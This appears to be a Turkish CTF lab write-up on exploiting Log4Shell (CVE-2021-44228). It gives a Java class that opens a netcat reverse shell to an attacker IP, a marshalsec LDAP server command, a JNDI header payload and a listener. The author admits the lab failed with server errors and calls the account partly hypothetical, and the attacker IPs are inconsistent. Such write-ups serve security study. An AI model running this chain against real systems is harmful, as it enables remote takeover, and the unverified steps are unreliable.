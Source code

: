 
**Zafiyetin Tanımı ve Kategorisi**

CTF'de istismar edilen zafiyetin adı **Log4Shell** olup, **CVE-2021-44228** kodu ile tanımlanmıştır. Bu zafiyetin kategorisi **Uzak Kod Çalıştırma (RCE)**'dır. Zafiyet, uygulamanın girdi verilerini loglarken **Log4j kütüphanesini kullanması**, **JNDI (Java Naming and Directory Interface) üzerinden uzak LDAP sunucularına bağlantı sağlanabilmesi** ve bu LDAP sunucularının hedef sistemde kod yürütülmesine yol açacak öğeleri sunabilmesi durumlarında ortaya çıkmaktadır. Özellikle HTTP header bilgileri (örneğin, `X-Api-Version`) üzerinden bu zafiyet tetiklenebilmektedir.

**Saldırı Aşamaları**

CTF senaryosunda gerçekleştirilen saldırı aşağıdaki aşamaları içermektedir:

1. **Endpoint Keşfi:** `ffuf` aracı kullanılarak hedef uygulamadaki `/api` ve `/systeminfo` endpoint'leri tespit edilmiştir. `/systeminfo` endpoint'i sistem hakkında bilgi verirken, `/api` endpoint'inin `X-Api-Version` header'ına duyarlı olduğu belirlenmiştir.
2. **Log4j Versiyonunun Tespiti:** Hedef sistemde **Log4j 2.6.1** sürümünün kullanıldığı tespit edilmiştir. Bu sürümün JNDI Injection zafiyetine karşı savunmasız olduğu belirlenmiştir.
3. **Exploit Sınıfının Hazırlanması:** `Exploit.java` adlı bir Java sınıfı hazırlanmıştır. Bu sınıf, çalıştırıldığında hedef sistemde bir reverse shell bağlantısı kurmayı amaçlamaktadır. Sınıfın içeriği aşağıdaki gibidir:
    
    ```
    import java.io.IOException;
    public class Exploit {
        static {
            try {
                String[] cmd = { "/bin/sh", "-c", "nc 192.168.144.1 6000 -e /bin/sh" };
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }
    ```
    
    Bu sınıf `javac` komutu ile derlenerek `Exploit.class` dosyası oluşturulmuştur. Kaynaklardan birinde, Docker ortamında `bash` yerine `sh` komutunun çalıştığına dair bir not bulunmaktadır.
4. **HTTP Sunucusu Kurulumu:** Oluşturulan `Exploit.class` dosyasını sunmak için Python'un basit HTTP sunucusu kullanılmıştır:
    
    ```
    python -m http.server 9999
    ```
    
    Farklı kaynaklarda farklı port numaraları (9999 ve 1112) kullanıldığı görülmektedir.
5. **LDAP Sunucusu Kurulumu (Marshalsec):** Hedef sisteme zararlı kodu enjekte etmek için `marshalsec` aracı kullanılarak bir LDAP sunucusu kurulmuştur. LDAP sunucusu, hedef sistemden bir istek geldiğinde, HTTP sunucusundan `Exploit.class` dosyasını indirip çalıştırmak üzere yapılandırılmıştır. Komut örneği şöyledir:
    
    ```
    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.245.59:9999/#Exploit"
    ```
    
    Farklı kaynaklarda sunucu IP adresleri ve `marshalsec` versiyonu farklılık gösterebilir. LDAP sunucusu genellikle 1389 portunda çalışmaya başlar.
6. **Payload Gönderimi:** `Postman` gibi bir araç kullanılarak hedef sisteme özel bir HTTP isteği gönderilmiştir. `X-Api-Version` header'ına Log4Shell zafiyetini tetikleyecek JNDI payload'u yerleştirilmiştir:
    
    ```
    GET /api HTTP/1.1
    Host: localhost:8080
    X-Api-Version: ${jndi:ldap://192.168.245.57:1389/Exploit}
    ```
    
    Bu istek, hedef sistemin belirtilen LDAP sunucusuna bağlanmasını sağlamıştır.
7. **Reverse Shell Dinleme:** Saldırgan makinede `netcat` (nc) aracı ile 6000 portunda bir dinleyici başlatılmıştır:
    
    ```
    nc -lvp 6000
    ```
    
    Başarılı bir saldırı sonucunda, hedef sistemden gelen bağlantı kabul edilmiş ve saldırgan sistem üzerinde bir shell erişimi elde etmiştir. Bu sayede hedef sistemde komut çalıştırma ve sistem kontrolü mümkün hale gelmiştir.

**Kullanılan Araçlar ve Komutlar**

Saldırı sırasında kullanılan temel araçlar ve komutlar şunlardır:

- `ffuf`: Endpoint fuzzing için kullanılmıştır.
- `marshalsec`: Kötü niyetli LDAP sunucusu kurmak için kullanılmıştır.
- `python3 -m http.server`: `Exploit.class` dosyasını paylaşmak için basit bir HTTP sunucusu başlatmak için kullanılmıştır.
- `javac`: Java exploit kodunu derlemek için kullanılmıştır.
- `netcat (nc)`: Hedef sistemden gelen reverse shell bağlantısını dinlemek için kullanılmıştır.
- `Postman`: HTTP isteklerini manuel olarak tetiklemek için kullanılmıştır.
- `git`, `mvn`: `marshalsec` aracını kurmak ve derlemek için kullanılan komutlardır.

**Sonuç**

Bu CTF senaryosu, **Log4Shell (CVE-2021-44228)** zafiyetinin gerçek dünya benzeri bir ortamda nasıl istismar edilebileceğini göstermektedir. Zafiyetli bir Log4j sürümünün, kötü niyetli LDAP ve HTTP sunucularıyla birlikte kullanılmasıyla, hedef sistem üzerinde tam yetkili uzaktan kod çalıştırma (reverse shell) erişimi elde edilebilmiştir. Bu durum, yazılım geliştirme süreçlerinde kullanılan kütüphanelerin güvenlik açıklarına karşı ne kadar dikkatli olunması gerektiğini ve güvenlik güncellemelerinin zamanında yapılmasının önemini vurgulamaktadır. Bir kaynakta, bu tür bir laboratuvarı Windows üzerinde çözerken virüs korumasının kapatılması gerekebileceği belirtilmektedir.

Not: Abi ben bu labı böyle yazdım ama Internal server error yiyordum, o yüzden farazi biraz. Tüm serverları kurdum, bağladım ama dediğim gibi internal server error yedim.